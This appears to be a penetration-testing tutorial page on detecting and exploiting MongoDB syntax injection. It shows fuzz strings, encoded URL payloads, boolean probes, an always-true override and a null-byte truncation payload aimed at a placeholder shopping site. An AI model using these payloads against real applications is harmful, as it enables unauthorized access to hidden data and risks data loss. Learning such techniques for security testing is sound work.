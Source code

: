 
# Detecting syntax injection in MongoDB

Consider a shopping application that displays products in different categories. When the user selects the Fizzy drinks category, their browser requests the following URL:
https://insecure-website.com/product/lookup?category=fizzy

This causes the application to send a JSON query to retrieve relevant products from the product collection in the MongoDB database:
this.category == 'fizzy'

To test whether the input may be vulnerable, submit a fuzz string in the value of the category parameter. An example string for **MongoDB** is:

```
'"`{
;$Foo}
$Foo \xYZ
```

Use this fuzz string to construct the following attack:

```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

> Note

NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.

In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a **JSON** property instead. In this case, this payload would become 

```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```



# Confirming conditional behavior

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements 

```
' && 0 && 'x
```
and 

```
' && 1 && 'x
```

as follows:

```https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x```

```https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x```

If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.


# Overriding existing conditions

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as ```'||1||'```:

```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/792fadb7-9843-4931-a640-1694147e2e55)


This results in the following MongoDB query:

```
this.category == 'fizzy'||'1'=='1'
```

As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories.

> [!WARNING]
> Take care when injecting a condition that always evaluates to true into a NoSQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If an application uses it when updating or deleting data, for example, this can result in accidental data loss.



### You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored. For example, the query may have an additional this.released restriction:
this.category == 'fizzy' && this.released == 1

The restriction this.released == 1 is used to only show products that are released. For unreleased products, presumably this.released == 0.

In this case, an attacker could construct an attack as follows:

```
https://insecure-website.com/product/lookup?category=fizzy'%00
```

This results in the following NoSQL query:

```
this.category == 'fizzy'\u0000' && this.released == 1
```

If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the fizzy category are displayed, including unreleased products.





